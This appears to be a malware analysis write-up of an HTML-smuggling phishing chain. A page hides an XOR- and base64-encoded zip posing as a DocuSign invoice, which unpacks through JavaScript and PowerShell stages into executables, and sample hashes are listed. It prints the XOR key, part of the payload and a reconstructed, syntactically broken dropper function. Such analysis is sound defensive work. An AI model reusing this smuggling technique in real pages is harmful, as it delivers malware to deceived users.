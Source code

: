```yaml
---
title: Malware Analysis
published: true
---
```


# STAGE 1:
	`064ee9cc4256a4e004d3c6e74e1a4cc2d686f82a7e22640aa718167b5af40a29  ./sample.html `

this is a HTML file containing the javascript code that drops a zip file,
we can see in the body section it's the payload that is encrypted, the id is `jzasjnpc` & class is `bwkytcnl`.
this is the excrypted zip file, first it's getting converted from base64 & then xor & then base64 decoded again.
the xor key for this zip payload is `so83fnguk42vuluw82syq55zhqqf3qm9sznw3skkxdfbcj2fjy1zbi6t4wn89m8kafg1kvi04dppc1q5xye8zzxo4k6utjrwwsc2f59khfmzkvycg8qxwl36asncitbj`,

```html
<body>
	<main class="bwkytcnl" id="jzasjnpc" data="JipLdyQsNjEqdXM/NCo/QEleEiA9UUYjQzcGJ3IhB3AyOy8ScjIqKiwzIFcuPnMSJxNwAy8QBz5WGTROWDp2By0zNUcyRT9kVTMUBS9cAU8uM....
```
name of the zip file is `May10-2023-Invoice-DocuSign.zip`

this is the procedure that generates the zip file, and in the end that object is executed
```javascript
	function extract_zip(input_url_var, 512)
	{

		var array_new = [];
		var fromb64input_data = atob_fromB64(input_url_var);
		for(var i = 0; i < fromb64input_data.length; i += 512)
		{
			var sliced = fromb64input_data.slice(i, i + 512);
			var sliced_array = new this[array](sliced.length);
			for(var i = 0; i < sliced.length; i++)
			{
				sliced_array[i] = sliced.charCodeAt(i);
			}
			var out_zip = new this[Uint8Array](sliced_array);
			array_new.push(out_zip);
		}
		var zip_data = new this[blob](array_new, {type: octet/stream});
		return zip_data;
	}
	
	function zip_create(zip_data)
	{
		let zip_name = "May10-2023-Invoice-DocuSign" + ".zip";
		let file_obj = new this[file]([zip_data], zip_name, {type: application/zip});
		let file_obj_url = this[URL][createObjectURL](file_obj);
		var createElement_a = document.createElement("a");
		document.body.appendChild(createElement_a);
		createElement_a.setAttribute(href,file_obj_url);
        		createElement_a[download] = zip_name;
                createElement_a.click();
		this[URL][revokeObjectURL](file_obj_url);
	}
```

# STAGE 2:
	`a36c8ea0188ddc3ed8f06c8e352bb314bc222fef6f9baeb211cd97ac62462dec  May10-2023-Invoice-DocuSign.zip`

this zip file contains a javascript file.
	`44737c01c93b96afcbb96c0b38993594d29a0a07d625999ef503c8424da90b0e  ./May10-2023-Invoice-DocuSign.js`

this javascript file contains 4 strings, after concatinating them and after removing "s" & "V" chars & then converting from hex,
gets us another javascript. this is the procedure of that
```javascript
	temp = STR_4.replace(/[sV]/g,'');
	var ooqajrjz = "";
	for (var i=0;i<temp.length;i+=2)
	{
		ttjqepbj = temp.substr(i,2);
		ooqajrjz += str_from_char_code(kmbvxuoa(ttjqepbj, 16));
	}
```

# STAGE 3:
	this javascript produces a powershell script that is run after 10 seconds of sleep, poweshell script is split by "!" and converted from base64


# STAGE 4:
	this powershell script runs a string that is base64 encoded & raw deflated.

# STAGE 5:
	


a0bf6f09f394949c603b878ab42b001155d347e5812b59f09a2ab9d387d548f6  ./a0bf6f09f394949c603b878ab42b001155d347e5812b59f09a2ab9d387d548f6.docx
f2354328324b94918311ef7a13e9c207b75f848bcaadebe7f4753f3d5fcfc63d  ./Base64FormattingOpti.exe.bin
c720d8d87e5744ef459c160ae3ae85984519c5cee89d4acd3d4156f929ebcca2  ./Cerbera.dll
bdddec1e08a612296a6caa2cb79749150e4b6797f6cca9b7f255ae11cfc4398f  ./IVectorView.dll
EA6D52270F7D5AEC22FD17F1904F2DFFD566016A4362D9D5EA81C1D11337DE9E  ./happy.exe 